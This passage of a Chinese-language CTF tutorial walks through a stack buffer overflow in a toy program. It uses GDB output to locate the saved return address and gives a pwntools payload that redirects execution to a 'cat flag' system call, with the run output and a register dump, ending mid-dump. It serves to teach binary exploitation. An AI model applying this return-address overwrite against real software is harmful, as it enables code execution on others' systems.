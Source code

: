 然后可以简单得到 `student` 的内存的范围，`0x7fffffffe2f0 - 0x7fffffffe338` 就是在栈中。`0032| 0x7fffffffe340 --> 0x400790 (<__libc_csu_init>:	push   r15)` 也印证了这一点，这样 `0x7fffffffe340` 地址的数据就很明显是 main 函数的 ebp，`0x7fffffffe348` 的数据就是 main 函数的下一句指令的地址。

## 控制函数流程

只要把 `system("cat flag");` 的地址写入到 `0x7fffffffe348` 就可以了，这个地址可以从 `pdisas main` 汇编代码中看到

```
0x0000000000400756 <+160>:	mov    edi,0x40087e
0x000000000040075b <+165>:	mov    eax,0x0
0x0000000000400760 <+170>:	call   0x400550 <system@plt>
```

而 `0x40087e` 处就是 `system` 的参数

```
gdb-peda$ x 0x40087e
0x40087e:	"cat flag"
```

所以要覆盖成的指令地址就是 `0x0000000000400756`，而不能是 `0x0000000000400760`，否则函数取到的参数可能是错误的。

思考：这个地址是在内存哪个区域？是栈区么？这个地址会变么？

payload 是 

```python
from pwn import *
print "1925\n" + "A" * (0x7fffffffe348 - 0x7fffffffe2f0) + p64(0x0000000000400756)
```

这里使用了 pwntools 库，p64 函数的作用就是把一个数字转换为内存中分布的形式

```python
>>> p64(0xdeadbeef)
'\xef\xbe\xad\xde\x00\x00\x00\x00'
```

```
What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
THIS_IS_FLAG
[1]    78848 bus error (core dumped)  ./vuln < 1.in
```

运行后虽然能成功的打印出 flag，但是最后进程会 crash，是因为 main 函数的栈底地址被我们覆盖了，如果要避免崩溃，还是需要精细的维护堆栈平衡的。

使用 GDB `b 29`，也就是最后的 `return 0`

```
gdb-peda$ b 29
Breakpoint 1 at 0x40077b: file main.c, line 29.
gdb-peda$ r < 1.in
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < 1.in
What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
[----------------------------------registers-----------------------------------]
RAX: 0x1b
RBX: 0x0
RCX: 0x7ffff7b04290 (<__write_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd3780 --> 0x0
RSI: 0x602010 ("You Speed One Second Here.\n")
RDI: 0x1
RBP: 0x7fffffffe340 ("AAAAAAAA\360\342\377\377\377\177")
```